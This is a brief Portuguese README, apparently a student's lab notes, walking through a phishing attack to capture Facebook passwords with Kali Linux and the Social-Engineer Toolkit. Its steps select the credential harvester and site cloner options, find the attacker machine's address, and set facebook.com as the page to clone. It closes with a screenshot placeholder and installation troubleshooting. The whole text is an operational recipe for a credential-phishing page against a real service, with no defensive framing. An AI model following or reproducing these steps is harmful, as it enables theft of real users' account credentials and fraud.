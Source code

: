 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resultados

![Alt text](./imagem_2024-12-31_140422361.png "Optional title")


### O que pode ter dado errado

Talvez porque eu acessei do próprio Kali, ou por causa da instalação, aconteceu algumas coisas erradas e eu tive que instalar pelo boot do Vbox, demorou muito e eu só fui dando enter, creio que isso pode ter feito alguma coisa dar errado.
